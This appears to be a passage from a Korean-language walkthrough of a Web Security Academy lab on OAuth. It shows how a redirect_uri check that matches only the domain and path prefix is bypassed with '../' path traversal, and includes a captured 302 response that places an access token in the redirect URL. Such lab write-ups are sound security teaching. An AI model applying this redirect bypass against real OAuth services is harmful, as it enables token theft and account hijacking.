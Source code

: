 ```http

```

2. 테스트해보면 서버가 정해진 URL(https://xxxx.web-security-academy.net/oauth-callback) 이외에는 400 Bad Request응답을 회신하는 것을 알 수 있다. 서버측에 검증 로직이 있는 것이다. 하지만 허점이 있을 거라고 생각할 수 있다. 

3. 몇 가지 테스트를 해보면 이 서버의 검증로직은 URL의 도메인과 패스부분까지 일치하는지만 본다는 것을 알 수 있다. 즉, URL https://xxxx.web-security-academy.net/oauth-callback 이후의 부분은 확인하지 않는다. 이럴 때 사용하는 테크닉중에 디렉토리 트래버셜 취약점에서 사용하는 것이 있다. 상위경로로 이동할 수 있는 `../` 이 그 것이다. 

4. 실제로 사용가능한지 확인해보자. 로그아웃후 다시 로그인하고, 억세스토큰 취득 요청(GET /auth?client_id=xxxxx)에서 redirect_uri를 다음과 같이 변경해본다. 

https://YOUR-LAB-ID.web-security-academy.net/oauth-callback/../post?postId=1


5. 그러면 다음과 같이 `../` 를 포함한 URL로 리다이렉트하라는 응답이 회신되는 것을 확인할 수 있다! 

```
HTTP/2 302 Found
X-Powered-By: Express
Pragma: no-cache
Cache-Control: no-cache, no-store
Location: https://0a9b004103d7caa0829cbb39004500a5.web-security-academy.net/oauth-callback/../post?postId=1#access_token=8QwIbMgYs8ICx4atOCsB1T_WOjPaUSqUdZJIASvAiKy&expires_in=3600&token_type=Bearer&scope=openid%20profile%20email
Content-Type: text/html; charset=utf-8
Set-Cookie: _session=YjOCsiPtXtdKjbFEGMiv4; path=/; expires=Tue, 23 May 2023 00:06:51 GMT; samesite=none; secure; httponly
Set-Cookie: _session.legacy=YjOCsiPtXtdKjbFEGMiv4; path=/; expires=Tue, 23 May 2023 00:06:51 GMT; secure; httponly
Date: Tue, 09 May 2023 00:06:51 GMT
Keep-Alive: timeout=5
Content-Length: 493

Redirecting to <a href="https://0a9b004103d7caa0829cbb39004500a5.web-security-academy.net/oauth-callback/../post?postId=1#access_token=8QwIbMgYs8ICx4atOCsB1T_WOjPaUSqUdZJIASvAiKy&amp;expires_in=3600&amp;token_type=Bearer&amp;scope=openid%20profile%20email">https://0a9b004103d7caa0829cbb39004500a5.web-security-academy.net/oauth-callback/../post?postId=1#access_token=8QwIbMgYs8ICx4atOCsB1T_WOjPaUSqUdZJIASvAiKy&amp;expires_in=3600&amp;token_type=Bearer&amp;scope=openid%20profile%20email</a>.
```

6. 그리고 웹 브라우저를 보면 다음과 같이 정상적으로 기사 페이지가 표시되는 것을 확인할 수 있다. 
